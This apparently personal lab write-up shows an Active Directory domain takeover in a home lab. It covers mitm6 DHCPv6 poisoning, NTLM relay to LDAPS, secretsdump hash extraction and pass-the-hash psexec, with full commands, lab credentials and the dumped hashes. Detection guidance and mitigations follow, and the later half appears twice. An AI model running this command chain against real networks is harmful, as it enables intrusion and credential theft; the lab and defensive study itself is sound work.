






IPV6 Overview
we can set target machine as ipv6's (man-in-the-middle) DNS and get info from DC
when any loggin takes place, the credential is captured in form of NTLM which we relay back to the DC via LDAP 
The configurations:
we add a certificate via the DC as follows;
go to server manager
manage -->add roles and features-->next-->next-->next...under select server role, check (Active Directory Certificate services)-->add features-->nextx4-->check (restart connection server)-->install
close the wizard when finished, open the warning right top and next till you check certificate authority-->next through and configure
N:B all we are doing is set a certificate to run LDAP on a secure site
ensure to reboot the server to complete the cert installation and configuration
Attack steps
in kali:
"sudo mitm6 -d EMMY.local"
# 03 — IPv6 Attack (Domain Compromise via DHCPv6 Poisoning)

> **Module:** Active Directory Attack Lab  
> **Technique:** IPv6 DHCPv6 Poisoning + NTLM Relay to LDAPS  
> **MITRE ATT&CK:** [T1557.001](https://attack.mitre.org/techniques/T1557/001/) | [T1550.002](https://attack.mitre.org/techniques/T1550/002/) | [T1003.002](https://attack.mitre.org/techniques/T1003/002/)  
> **Difficulty:** Advanced  
> **Environment:** Kali Linux → Windows Domain (EMMY.local)

---

## What is an IPv6 Attack?

Windows machines have **IPv6 enabled by default** and will automatically request an IPv6 address via DHCPv6. If no IPv6 infrastructure exists on the network, attackers can respond to these requests — assigning themselves as the **rogue IPv6 DNS server**.

Victims then send DNS queries to the attacker, who relays authentication attempts to the Domain Controller via **LDAPS**, extracting domain information and credentials without any user interaction.

---

## Why This Attack is Dangerous

- IPv6 is enabled by default on all modern Windows machines
- Requires **no user interaction** — triggers automatically on login/reboot
- Bypasses LLMNR/NBT-NS mitigations entirely
- Can relay directly to the DC via LDAPS
- Results in **full domain enumeration and compromise**

---

## Lab Setup

| Role | Machine | IP |
|------|---------|-----|
| Attacker | Kali Linux | 192.168.227.130 |
| Victim 1 | THEPUNISHER | 192.168.227.137 |
| Victim 2 | SPIDERMAN | 192.168.227.138 |
| Domain Controller | HYDRA-DC (EMMY.local) | 192.168.227.142 |

| Tool | Purpose |
|------|---------|
| mitm6 | DHCPv6 poisoning & rogue DNS |
| ntlmrelayx | Relay captured auth to LDAPS |
| secretsdump | Dump all domain hashes |
| psexec.py | Pass-the-Hash shell on DC |

---

## Attack Flow

Windows machines send DHCPv6 requests (IPv6 enabled by default)
↓
mitm6 responds → assigns Kali as rogue IPv6 DNS server
↓
Victims send DNS queries to Kali
↓
ntlmrelayx intercepts → relays auth to DC via LDAPS
↓
Full domain enumeration dumped to lootme/
↓
Plaintext password found in AD description field (SQLService)
↓
secretsdump → all domain hashes extracted
↓
Pass-the-Hash → SYSTEM shell on Domain Controller
↓

Full Domain Compromise
---

## Step-by-Step Walkthrough

### Step 1 — Install mitm6

```bash
cd /opt
sudo git clone https://github.com/dirkjanm/mitm6.git
cd mitm6
pip install . --break-system-packages
```

---

### Step 2 — Start mitm6

```bash
sudo mitm6 -d EMMY.local
```


*Fig 1: mitm6 actively poisoning DHCPv6 and sending spoofed DNS replies*

---

### Step 3 — Start ntlmrelayx targeting DC via LDAPS

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -6 -t ldaps://192.168.227.142 -wh fakewpad.EMMY.local -l lootme
```

| Flag | Meaning |
|------|---------|
| `-6` | Listen on IPv6 |
| `-t ldaps://` | Relay to DC via LDAPS |
| `-wh` | Rogue WPAD hostname |
| `-l lootme` | Save enumeration data here |

---

### Step 4 — Wait for Authentication

When a domain user logs in or a machine reboots, mitm6 intercepts the DHCPv6 request and ntlmrelayx relays the authentication to the DC.


*Fig 2: ntlmrelayx relaying authentication to LDAPS on the DC*

---

### Step 5 — Domain Enumeration Captured

ntlmrelayx automatically dumps domain information into the `lootme/` folder:

lootme/
├── domain_computers.html
├── domain_computers_by_os.html
├── domain_computers.json
├── domain_groups.html
├── domain_groups.json
├── domain_policy.html
├── domain_policy.json
├── domain_trusts.html
├── domain_trusts.json
├── domain_users.html
├── domain_users.json
└── domain_users_by_group.html


*Fig 3: Full domain enumeration saved to lootme/ folder*

---

### Step 6 — Critical Finding: Plaintext Password in AD Description

*Fig 3: Full domain enumeration saved to lootme/ folder*

---

### Step 6 — Critical Finding: Plaintext Password in AD Description

Reviewing `domain_users.html` revealed a critical misconfiguration:


*Fig 4: SQLService account with plaintext password stored in AD description field*

| Account | Finding |
|---------|---------|
| SQLService | Password stored in description: `Mypassword123$` |
| SQLService | Member of Domain Admins, Enterprise Admins, Schema Admins |

---

### Step 7 — Dump All Domain Hashes via secretsdump

Using the discovered credentials to dump all domain hashes:

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py EMMY.local/SQLService:'Mypassword123$'@192.168.227.142
```


*Fig 5: All domain hashes dumped via secretsdump*

**Captured Hashes:**

| Account | RID | NT Hash |
|---------|-----|---------|
| Administrator | 500 | `f63ab6529cec315e71ce8d4ec6a60f86` |
| krbtgt | 502 | `b2069439b0b520aa7b8655fed916cb69` |
| fcastle | 1106 | `4874575f382e22a0599ab5b2e8ccf174` |
| Tstack | 1107 | `6b145afae3201b839e9bd6d518c13841` |
| pparker | 1112 | `fc849f4e9f766aa66524667edb0e10da` |
| SQLService | 1113 | `c9f98a91b0f788730538f189c1dd9467` |

---

### Step 8 — Pass-the-Hash → SYSTEM on Domain Controller

Using the Administrator NT hash for direct access to the DC:

```bash
python3 /usr/share/doc/python3-impacket/examples/psexec.py EMMY.local/Administrator@192.168.227.142 -hashes aad3b435b51404eeaad3b435b51404ee:f63ab6529cec315e71ce8d4ec6a60f86
```


*Fig 6: SYSTEM shell on the Domain Controller via Pass-the-Hash*

---

## SOC Detection Perspective

### Network Indicators
| Signal | Description |
|--------|-------------|
| DHCPv6 traffic | Unexpected DHCPv6 responses from non-infrastructure hosts |
| LDAPS from workstations | Workstations authenticating directly to DC via LDAPS |
| IPv6 DNS responses | Rogue IPv6 DNS server responding to queries |

### Windows Event IDs
| Event ID | Description |
|----------|-------------|
| 4624 | Successful logon (watch for Type 3 from unexpected IPs) |
| 4662 | AD object access (LDAP enumeration) |
| 4768 | Kerberos TGT requested |
| 4769 | Kerberos service ticket requested |

### Sample Splunk Query
```spl
index=windows EventCode=4624 Logon_Type=3
| where src_ip!="expected_admin_ip"
| stats count by src_ip, Account_Name, dest_ip
| sort -count
```

---

## Mitigation Strategies

| Action | How |
|--------|-----|
| Disable IPv6 | Group Policy → Disable IPv6 on all adapters if not needed |
| Block DHCPv6 | Configure network equipment to block rogue DHCPv6 |
| Enable LDAP signing | Require LDAP signing and channel binding on DC |
| Disable WPAD | Group Policy → Disable WPAD auto-detection |
| Audit AD descriptions | Never store passwords in AD description fields |
| Enable EPA | Extended Protection for Authentication on all servers |
| Tier admin accounts | Separate Domain Admin accounts from daily-use accounts |

---

## MITRE ATT&CK Mapping

| Technique | ID |
|-----------|----|
| Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning | [T1557.001](https://attack.mitre.org/techniques/T1557/001/) |
| OS Credential Dumping: NTDS | [T1003.003](https://attack.mitre.org/techniques/T1003/003/) |
| Use of Alternate Authentication Material: Pass the Hash | [T1550.002](https://attack.mitre.org/techniques/T1550/002/) |
| Account Discovery: Domain Account | [T1087.002](https://attack.mitre.org/techniques/T1087/002/) |
| Unsecured Credentials | [T1552](https://attack.mitre.org/techniques/T1552/) |

---

## Key Takeaways

- IPv6 being enabled by default makes every Windows network potentially vulnerable
- This attack requires **zero user interaction** beyond normal login activity
- Storing passwords in AD description fields is a critical misconfiguration
- A single Domain Admin credential compromise leads to full domain takeover
- The krbtgt hash enables **Golden Ticket attacks** — persistent access even after password resets
- Disabling IPv6 where not needed is the most effective single mitigation

---

← [Back to Main Lab](../README.md)

Reviewing `domain_users.html` revealed a critical misconfiguration:


*Fig 4: SQLService account with plaintext password stored in AD description field*

| Account | Finding |
|---------|---------|
| SQLService | Password stored in description: `Mypassword123$` |
| SQLService | Member of Domain Admins, Enterprise Admins, Schema Admins |

---

### Step 7 — Dump All Domain Hashes via secretsdump

Using the discovered credentials to dump all domain hashes:

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py EMMY.local/SQLService:'Mypassword123$'@192.168.227.142
```


*Fig 5: All domain hashes dumped via secretsdump*

**Captured Hashes:**

| Account | RID | NT Hash |
|---------|-----|---------|
| Administrator | 500 | `f63ab6529cec315e71ce8d4ec6a60f86` |
| krbtgt | 502 | `b2069439b0b520aa7b8655fed916cb69` |
| fcastle | 1106 | `4874575f382e22a0599ab5b2e8ccf174` |
| Tstack | 1107 | `6b145afae3201b839e9bd6d518c13841` |
| pparker | 1112 | `fc849f4e9f766aa66524667edb0e10da` |
| SQLService | 1113 | `c9f98a91b0f788730538f189c1dd9467` |

---

### Step 8 — Pass-the-Hash → SYSTEM on Domain Controller

Using the Administrator NT hash for direct access to the DC:

```bash
python3 /usr/share/doc/python3-impacket/examples/psexec.py EMMY.local/Administrator@192.168.227.142 -hashes aad3b435b51404eeaad3b435b51404ee:f63ab6529cec315e71ce8d4ec6a60f86
```


*Fig 6: SYSTEM shell on the Domain Controller via Pass-the-Hash*

---

## SOC Detection Perspective

### Network Indicators
| Signal | Description |
|--------|-------------|
| DHCPv6 traffic | Unexpected DHCPv6 responses from non-infrastructure hosts |
| LDAPS from workstations | Workstations authenticating directly to DC via LDAPS |
| IPv6 DNS responses | Rogue IPv6 DNS server responding to queries |

### Windows Event IDs
| Event ID | Description |
|----------|-------------|
| 4624 | Successful logon (watch for Type 3 from unexpected IPs) |
| 4662 | AD object access (LDAP enumeration) |
| 4768 | Kerberos TGT requested |
| 4769 | Kerberos service ticket requested |

### Sample Splunk Query
```spl
index=windows EventCode=4624 Logon_Type=3
| where src_ip!="expected_admin_ip"
| stats count by src_ip, Account_Name, dest_ip
| sort -count
```

---

## Mitigation Strategies

| Action | How |
|--------|-----|
| Disable IPv6 | Group Policy → Disable IPv6 on all adapters if not needed |
| Block DHCPv6 | Configure network equipment to block rogue DHCPv6 |
| Enable LDAP signing | Require LDAP signing and channel binding on DC |
| Disable WPAD | Group Policy → Disable WPAD auto-detection |
| Audit AD descriptions | Never store passwords in AD description fields |
| Enable EPA | Extended Protection for Authentication on all servers |
| Tier admin accounts | Separate Domain Admin accounts from daily-use accounts |

---

## MITRE ATT&CK Mapping

| Technique | ID |
|-----------|----|
| Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning | [T1557.001](https://attack.mitre.org/techniques/T1557/001/) |
| OS Credential Dumping: NTDS | [T1003.003](https://attack.mitre.org/techniques/T1003/003/) |
| Use of Alternate Authentication Material: Pass the Hash | [T1550.002](https://attack.mitre.org/techniques/T1550/002/) |
| Account Discovery: Domain Account | [T1087.002](https://attack.mitre.org/techniques/T1087/002/) |
| Unsecured Credentials | [T1552](https://attack.mitre.org/techniques/T1552/) |

---

## Key Takeaways

- IPv6 being enabled by default makes every Windows network potentially vulnerable
- This attack requires **zero user interaction** beyond normal login activity
- Storing passwords in AD description fields is a critical misconfiguration
- A single Domain Admin credential compromise leads to full domain takeover
- The krbtgt hash enables **Golden Ticket attacks** — persistent access even after password resets
- Disabling IPv6 where not needed is the most effective single mitigation

---

← [Back to Main Lab](../README.md)
